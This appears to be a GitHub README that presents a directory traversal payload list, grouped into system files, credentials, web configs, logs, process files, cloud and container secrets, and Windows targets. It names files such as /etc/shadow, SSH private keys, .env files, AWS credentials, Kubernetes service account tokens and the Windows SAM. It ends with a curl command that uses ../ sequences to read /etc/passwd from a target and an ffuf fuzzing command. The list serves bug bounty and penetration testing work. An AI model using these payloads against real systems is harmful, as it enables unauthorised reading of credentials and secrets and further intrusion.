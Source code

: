 # Directory Traversal Payload List

This repository contains a curated list of **directory traversal / path traversal** payloads.  
Use this for **educational purposes, bug bounty, or penetration testing** only.  

---

## 🖥 System Files
- /etc/passwd
- /etc/shadow
- /etc/group
- /etc/hosts
- /etc/hostname
- /etc/issue
- /etc/os-release

## 🔑 Credentials
- /root/.ssh/id_rsa
- /home/<user>/.ssh/id_rsa
- /etc/mysql/my.cnf
- /var/www/html/config.php
- /var/www/html/wp-config.php
- /var/www/html/.env

## 🌐 Web Configs
- /etc/apache2/apache2.conf
- /etc/nginx/nginx.conf
- /etc/phpmyadmin/config.inc.php

## 📝 Logs
- /var/log/auth.log
- /var/log/apache2/error.log
- /var/log/nginx/access.log
- /var/log/syslog

## 🛠 Process
- /proc/self/environ
- /proc/self/cmdline

## ☁️ Cloud / Containers
- /root/.aws/credentials
- /var/run/secrets/kubernetes.io/serviceaccount/token
- /var/lib/docker/

## 🖥 Windows
- C:\Windows\System32\drivers\etc\hosts
- C:\Windows\System32\config\SAM
- C:\Users\<user>\.ssh\id_rsa
- C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

---

## 🔧 Usage Example
```bash
# Linux
curl "http://target.com/download?file=../../../../etc/passwd"

# Fuzz with ffuf
ffuf -u http://target.com/download?file=FUZZ -w traversal.txt
